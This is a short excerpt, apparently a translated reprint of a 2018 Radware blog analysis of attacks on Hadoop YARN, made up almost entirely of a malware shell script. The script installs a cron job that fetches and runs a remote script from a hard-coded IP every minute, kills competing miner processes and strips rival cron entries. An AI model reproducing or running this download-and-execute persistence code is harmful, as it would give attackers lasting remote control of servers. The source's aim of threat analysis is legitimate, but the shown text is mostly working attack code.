 ```
    echo "Cron exists"
else
    echo "Cron not found"
    LDR="wget -q -O -"
    if [ -s /usr/bin/curl ];
    then
        LDR="curl";
    fi
    if [ -s /usr/bin/wget ];
    then
        LDR="wget -q -O -";
    fi
    (crontab -l 2>/dev/null; echo "* * * * * $LDR http://46.249.38.186/cr.sh | sh > /dev/null 2>&1")| crontab -
fi

pkill -f logo4.jpg
pkill -f logo0.jpg
pkill -f logo9.jpg
pkill -f jvs
pkill -f javs
pkill -f 192.99.142.248
rm -rf /tmp/pscd*
rm -rf /var/tmp/pscd*
crontab -l | sed '/202.144.193.167/d' | crontab -
crontab -l | sed '/192.99.142.232/d' | crontab -
crontab -l | sed '/8220/d' | crontab -
crontab -l | sed '/192.99.142.226/d' | crontab -
crontab -l | sed '/192.99.142.248/d' | crontab -
crontab -l | sed '/45.77.86.208/d' | crontab -
crontab -l | sed '/144.202.8.151/d' | crontab -
crontab -l | sed '/192.99.55.69/d' | crontab -
crontab -l | sed '/logo4/d' | crontab -
crontab -l | sed '/logo9/d' | crontab -
crontab -l | sed '/logo0/d' | crontab -
crontab -l | sed '/logo/d' | crontab -
crontab -l | sed '/tor2web/d' | crontab -
crontab -l | sed '/jpg/d' | crontab -
crontab -l | sed '/png/d' | crontab -
crontab -l | sed '/tmp/d' | crontab -*
```

**原载于 2018 年 11 月 15 日*[*blog.radware.com*](https://blog.radware.com/security/2018/11/hadoop-yarn-an-assessment-of-the-attack-surface-and-its-exploits/)*。**